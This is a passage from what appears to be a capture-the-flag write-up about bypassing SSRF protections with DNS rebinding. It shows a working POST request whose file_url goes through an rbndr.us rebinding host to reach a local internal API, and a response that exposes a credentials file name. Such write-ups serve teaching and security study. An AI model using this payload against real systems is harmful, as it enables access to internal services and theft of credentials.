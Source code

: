 <figure><img src="../.gitbook/assets/image (21).png" alt=""><figcaption></figcaption></figure>

#### Final Breakthrough

The parameter `user_uuid` needed to be changed to `uuid`:

```http
POST /api/v2/upload HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Content-Type: application/json
Content-Length: 101
{"file_url":"http://7f000001.d83ad3ce.rbndr.us//api/users?uuid=05262283-b53e-4410-8793-21c7eef6ed19"}
```

The response indicated success:

```http
HTTP/1.1 200 OK
Server: Werkzeug/3.0.3 Python/3.12.3
Date: Sat, 27 Jul 2024 09:32:18 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 25
["my-twitter-creds.txt"]
```

And here we go—we did it! The server revealed the sensitive file, "my-twitter-creds.txt."

#### Conclusion

By following the above steps and utilizing tools like Docker, DNS rebinding, and directory brute-forcing, we were able to bypass SSRF protections and exfiltrate sensitive information from the target application. This demonstrates the effectiveness of DNS rebinding in circumventing security measures that rely on IP-based access controls.
